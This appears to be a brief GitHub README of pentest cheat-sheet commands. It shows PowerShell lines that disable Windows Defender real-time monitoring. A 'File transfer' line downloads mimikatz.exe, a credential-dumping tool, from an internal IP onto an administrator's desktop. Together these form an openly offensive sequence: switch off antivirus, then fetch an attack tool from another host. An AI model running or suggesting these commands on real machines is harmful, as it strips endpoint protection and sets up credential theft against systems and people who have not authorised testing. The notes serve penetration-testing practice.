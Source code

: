 # praia_essential_commands
Command for pentest

# Disable Windows Defender on Windows 10 using PowerShell
#### Fire up a PowerShell window as administrator and run the following command:

PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true

#### Just set the DisableRealTimeMonitoring back to false to re-enable the real-time monitoring within Defender.

PS C:\> Set-MpPreference -DisableRealtimeMonitoring $false


# File transfer

PS C:\>  powershell.exe wget http://10.10.12.39/mimikatz.exe -outfile C:\users\administrator\desktop\mimikatz.exe
